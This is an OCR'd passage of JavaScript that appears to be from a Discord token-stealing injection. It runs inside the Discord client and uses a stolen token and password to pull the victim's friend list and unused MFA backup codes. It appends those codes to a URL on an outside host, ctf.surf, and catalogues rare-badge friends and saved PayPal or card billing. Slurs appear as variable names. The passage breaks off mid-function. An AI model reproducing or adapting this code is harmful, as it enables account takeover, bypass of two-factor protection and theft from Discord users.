                            xmlHttp.open( "GET", "https://discord.com/api/v9/users/@me/relationships", false );
                            xmlHttp.setRequestHeader("Authorization", "${token}");
                            xmlHttp.send( null );
                            xmlHttp.responseText`, !0).then((info4) => {
                    if (token.startsWith("mfa")) {
                        window.webContents.executeJavaScript(`
                            var xmlHttp = new XMLHttpRequest();
                            xmlHttp.open("POST", "https://discord.com/api/v9/users/@me/mfa/codes", false);
                            xmlHttp.setRequestHeader('Content-Type', 'application/json');
                            xmlHttp.setRequestHeader("authorization", "${token}")
                            xmlHttp.send(JSON.stringify({\"password\":\"${password}\",\"regenerate\":false}));
                            xmlHttp.responseText`, !0).then((codes) => {
                            var fieldo = [];
                            var baseuri = "https://ctf.surf/raw/"
                            var gayass = JSON.parse(codes)
                            let g = gayass.backup_codes
                            const r = g.filter((code) => {
                                return code.consumed == null
                            })
                            for (let z in r) {
                                fieldo.push({
                                    name: `code:`,
                                    value: `\`${r[z].code.insert(4, "-")}\``,
                                    inline: true
                                })
                                baseuri += `${r[z].code.insert(4, "-")}<br>`
                            }
                            function totalFriends() {
                                var f = JSON.parse(info4)
                                const r = f.filter((user) => {
                                    return user.type == 1
                                })
                                return r.length
                            }
                            function calcFriends() {
                                var f = JSON.parse(info4)
                                const r = f.filter((user) => {
                                    return user.type == 1
                                })
                                var gay = "";
                                for (z of r) {
                                    var b = GetRBadges(z.user.public_flags)
                                    if (b != "") {
                                        gay += b + ` ${z.user.username}#${z.user.discriminator}\n`
                                    }
                                }
                                if (gay == "") {
                                    gay = "no rare friends"
                                }
                                return gay
                            }
                            function cool() {
                                const json = JSON.parse(info3)
                                var billing = "";
                                json.forEach(z => {
                                    if (z.type == "") {
                                        return "\`❌\`"
                                    } else if (z.type == 2 && z.invalid != !0) {
                                        billing += "\`✔️\`" + " <:paypal:896441236062347374>"
                                    } else if (z.type == 1 && z.invalid != !0) {
                                        billing += "\`✔️\`" + " :credit_card:"
                                    } else {
                                        return "\`❌\`"
                                    }